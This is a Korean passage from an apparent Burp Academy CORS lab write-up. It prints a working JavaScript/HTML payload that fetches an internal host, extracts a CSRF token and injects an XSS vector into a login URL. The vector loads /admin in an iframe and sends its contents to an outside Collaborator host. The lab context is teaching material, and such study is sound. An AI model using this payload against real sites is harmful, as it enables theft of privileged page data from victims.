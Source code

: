 ![XSS테스트 결과](/images/burp-academy-cors-4-2.png)


## STEP 3. XSS를 이용해서 admin 페이지의 내용 확인하기 

XSS취약점이 있는 것을 알았다. 다음 스텝으로 이 XSS 취약점을 이용해서 admin페이지의 내용을 알아낸다. 다음 코드를 사용한다. 위의 스텝에서 사용한 코드와 xss_vector만 제외하면 동일하다. 이번에는 iframe을 사용한다. 이 코드가 관리자(희생자)의 브라우저에서 동작하면 로그인 페이지에 iframe이 삽입된다. iframe은 `/admin`의 페이지를 로드한다. 그리고 페이지가 로드되면 새로운 이미지 엘레먼트(태그)를 생성한다. 이 이미지의 src속성이 collaborator서버의 URL로 되어 있기 때문에 collaborator서버로 통신이 발생한다. 이때, HTTP요청에 iframe(admin페이지)의 내용 (this.contentWindow.document.body.innerHTML부분)이 함께 전송된다. 교묘하게 잘 짜여진 코드다! 

```html
<html>
    <script>
        collaboratorURL = "http://jczuv0mhp9to3cgtcd767eb9208rwlka.oastify.com"
        url = "http://192.168.0.250:8080"

        fetch(url)
        .then(response => response.text())
        .then(text => {
            try{
                xss_vector = '"><iframe src=/admin onload="new Image().src=\'' + collaboratorURL + '?code=\' + encodeURIComponent(this.contentWindow.document.body.innerHTML)">';
                login_path = '/login?username=' + encodeURIComponent(xss_vector) + '&password=random&csrf=' + text.match(/csrf" value="([^"]+)"/)[1];
                location = url + login_path;

            }catch (err){
                
            }
        })
        </script>
</html>
```
